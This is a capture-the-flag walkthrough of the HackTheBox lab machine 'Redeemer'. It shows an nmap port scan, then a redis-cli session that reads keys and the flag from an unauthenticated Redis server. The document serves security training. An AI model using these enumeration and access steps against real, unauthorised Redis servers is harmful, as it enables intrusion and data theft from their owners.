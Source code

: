 ```yaml
---
title: Walkthrough - A HackTheBox machine - Redeemer
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
  - redis
---
```


# Walkthrough - A HackTheBox machine - Redeemer

Enumerate open ports/services:

```bash
nmap -sC -sV $ip -Pn -p-
```

Results:

```PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store 5.0.7
```

See [6379 Redis Cheat sheet](6379-redis.md).


## Exploitation

```bash
└─$ redis-cli -h 10.129.136.187 -p 6379         
10.129.136.187:6379> INFO keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
(0.60s)
10.129.136.187:6379> select 0
OK
10.129.136.187:6379> keys *
1) "temp"
2) "numb"
3) "flag"
4) "stor"
10.129.136.187:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```


